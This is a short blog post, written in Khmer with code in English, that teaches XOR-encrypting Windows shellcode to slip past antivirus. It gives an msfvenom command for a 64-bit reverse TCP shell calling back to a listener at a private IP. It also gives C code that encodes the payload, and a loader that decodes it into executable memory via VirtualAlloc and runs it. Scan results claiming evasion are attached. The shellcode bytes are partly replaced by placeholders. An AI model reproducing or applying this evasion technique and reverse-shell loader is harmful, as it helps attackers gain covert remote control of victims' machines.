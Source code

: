```yaml
---
title: "Encrypting Shellcode with XOR In C"
date: 2023-06-30T21:01:06+07:00
description: កូដនីយកម្ម Shellcode ជាមួយ XOR ក្នុងភាសារ C
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- c-shellcode
- bypass
- xor
categories:
- Process Injection
series:
- WinExE
image: images/feature2/bam.png
---
```


#### Summary
ខាងក្រោមជាការបង្កើត Shellcode និងធ្វើកូដនីយកម្ម XOR ដើម្បីបញ្ចៀសពីការរកឃើញរបស់កម្មវិធីកំចាត់មេរោគ ។

#### Generate Shellcode
ខាងក្រោមជាដំណើរការបង្កើត Payload ដោយប្រើប្រាស់ Shellcode ជាភាសារ C គោលដៅនៅលើម៉ាស៊ីន 64 bit ។

{{< highlight zsh "linenos=table" >}}
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.60.136 lport=4433 -f c
{{< / highlight >}}

#### Create XOR Encryption
{{< highlight c "linenos=table" >}}
#include <stdio.h>
unsigned char code[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x48\x3\xd2\x65\x48\[Original Shellcode]\x8b\x52\x18\x48"
"\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
int main()
{
 char key = 'K'; // RIGHT
 // char key = "K"; // WRONG
 int i = 0;
 for (i; i<sizeof(code); i++)
 {
  printf("\\x%02x",code[i]^key);
 }
}
{{< / highlight >}}

Compile កូដខាងលើនោះយើងនឹងទទួលបាន Encryption Strings ថ្មីមួយ សូមចម្លងវាទុកដើម្បីដាក់ចូលទៅក្នុងកូដខាងក្រោមដើម្បី Decrypt កូដខាងលើ ។

#### Create XOR Decryption
{{< highlight c "linenos=table" >}}
#include <stdio.h>
#include <windows.h>
unsigned char code[] = "\xb7\x03\xc8\xaf\[Decrypted Shellcode]\xa3\x87\x4b\x4b\x4b";
int main()
{
  char key = 'K';
  int i = 0;
  for (i; i<sizeof(code) - 1; i++)
{
  code[i] = code[i]^key;
}

  void *exec = VirtualAlloc(0, sizeof code, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(exec, code, sizeof code);
  ((void(*)())exec)();
  return 0;
}
{{< / highlight >}}

Compile Payload ខាងលើនោះយើងនឹងទទួលបាន Payload ចុងក្រោយ ៕

![AV Scan Results](/en/posts/img/2023/06/shellcode-xor-encrypt-in-c/enc-dec-xor-demo.png)

#### Scan Result

![AV Scan Results](/en/posts/img/2023/06/shellcode-xor-encrypt-in-c/scan-results.png)

<b>តំណរភ្ជាប់៖</b> [ANTISCAN.ME](https://antiscan.me/scan/new/result?id=8fJpAqhnUN9c)
<b>សម្រង់ចេញពី៖</b> [MEDIUM](https://medium.com/@lsecqt/encrypting-shellcode-with-xor-offensive-coding-in-c-5a42cb978d6e)